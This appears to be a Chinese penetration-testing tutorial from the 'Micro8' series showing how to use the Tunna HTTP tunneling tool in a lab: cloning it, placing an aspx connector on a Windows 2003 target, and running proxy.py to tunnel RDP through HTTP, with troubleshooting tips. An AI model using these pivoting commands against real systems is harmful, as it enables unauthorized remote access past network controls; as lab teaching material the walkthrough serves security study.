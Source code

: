 ```yaml
---
title: 99、HTTP隧道Tunna第三季
date: 2019-09-21 19:07:14
comments: true
categories: 
 - Micro8系列
---
```





**Tunna简介：**

Tunna1.1 是 secforce 在2014年11月出品的一款基于HTTP隧道工具。其中v1.1中支持了SOCKS4a。

Tunna演示稿：  
https://drive.google.com/open?id=1PpB8_ks93isCaQMEUFf_cNvbDsBcsWzE

Github：  
https://github.com/SECFORCE/Tunna

**攻击机：**   
192.168.1.5 Debian  
192.168.1.4 Windows 7

**靶机：**   
192.168.1.119 Windows 2003

**安装：**
```code
root@John:~# git clone https://github.com/SECFORCE/Tunna.git
Cloning into 'Tunna'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 156 (delta 0), reused 2 (delta 0), pack‐reused 150
Receiving objects: 100% (156/156), 8.93 MiB | 25.00 KiB/s, done.
Resolving deltas: 100% (84/84), done.
```
![](../do/media/dac94b993935a569d6b5cec53e91eb54.jpg)

**靶机执行：**

以aspx为demo。  

![](../do/media/45105406fce5e573635d20030393a928.jpg)

**攻击机执行：**  

```python
python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
```
![](../do/media/270e3220479652ae6eb658f40156cf97.jpg)

![](../do/media/5e8e8a0ea358fdf98fc37bbb31b5994e.jpg)


### 附录：

**解决：**General Exception: [Errno 104] Connection reset by peer
```code
[+] Spawning keep‐alive thread
[‐] Keep‐alive thread not required
[+] Checking for proxy: False
```

连接后，出现
```code
General Exception: [Errno 104] Connection reset by peer
```

等待出现：**无法验证此远程计算机的身份，是否仍要连接？**

再次运行，在点击是(Y)
```code
python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
```
![](../do/media/086a4ba0d1640a1d5b5efb747490329d.jpg)

![](../do/media/1a7fb8afe7862e95f22ce331e1ea6480.jpg)

![](../do/media/89343acc07c18c27399943cd200091b6.jpg)


**如果：没有出现“无法验证此远程计算机的身份，是否仍要连接？”**

注册表键值：
HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers
删除对应IP键值即可。

非常遗憾的是，Tunna对PHP的支持并不是太友好。

>   Micropoor
